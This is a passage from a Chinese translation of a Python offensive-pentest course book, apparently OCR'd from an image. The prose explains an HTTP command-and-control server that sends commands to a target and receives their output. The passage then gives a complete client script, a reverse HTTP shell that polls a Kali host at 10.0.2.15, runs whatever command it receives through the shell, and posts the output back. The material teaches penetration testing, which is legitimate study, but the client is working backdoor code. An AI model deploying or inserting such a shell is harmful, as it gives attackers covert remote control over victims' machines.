```
        httpd.serve_forever() # start the HTTP server, however if we got ctrl+c we will Interrupt and stop the server
    except KeyboardInterrupt: 
        print '[!] Server is terminated'
        httpd.server_close()
```

在服务器端，我们将使用一个名为`BaseHTTPServer`的内建库来构建一个基本的 HTTP 服务器，用于处理客户端请求。接下来，我们通过将`PORT_NUMBER`设置为`80`来定义 Kali IP 和监听端口地址。然后，我们创建`server_class`和`httpd`对象，并将监听 IP、`PORT_NUMBER`以及类处理程序`MyHandler`传递给`server_class`。类处理程序`MyHandler`定义了当服务器接收到`GET`或`POST`请求时应执行的操作。服务器将永久运行，无需编写`while True:`。

现在，如果服务器接收到一个`GET`请求，它将使用原始输入获取用户输入，并发送一个 HTML 状态`200`，表示一切正常。此时，`send_header()`指定了头字段的定义。由于我们的 HTTP 客户端需要知道数据的类型，因此设置此值是强制性的。在此情况下，数据类型是 HTML 文本，`text/html`。`wfile.write()`函数等同于我们之前 TCP shell 中发送数据的方式，我们将使用该函数将用户输入的命令发送到目标。

如果服务器首先接收到一个`POST`请求，类似于`GET`请求，我们将返回一个 HTML 状态`200`，表示我们已经成功接收到`POST`请求而没有任何问题。`s.headers['Content-Length']`指定了`HTTP POST`数据所包含的字节数。请注意，返回的值是一个字符串，但在将其作为参数传递给`rfile.read()`之前，必须将其转换为整数。我们将使用`integer`函数来进行此转换。最后，我们将打印`postVar`变量，在这种情况下，它将是命令执行的输出。服务器将使用`serve_forever()`函数永久运行，而无需编写`while True:`循环。然而，如果我们从键盘按下*Ctrl* + *C*，它将中断循环。

# 客户端

以下代码块位于客户端：

```
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn https://jo.linkedin.com/in/python2

# Basic HTTP Client

import requests # Download Link https://pypi.python.org/pypi/requests#downloads , just extract the rar file and follow the video :)
import subprocess 
import time

while True: 

    req = requests.get('http://10.0.2.15') # Send GET request to our kali server
    command = req.text # Store the received txt into command variable

    if 'terminate' in command:
        break 

    else:
        CMD = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        post_response = requests.post(url='http://10.0.2.15', data=CMD.stdout.read() ) # POST the result 
        post_response = requests.post(url='http://10.0.2.15', data=CMD.stderr.read() ) # or the error -if any-

    time.sleep(3)
```
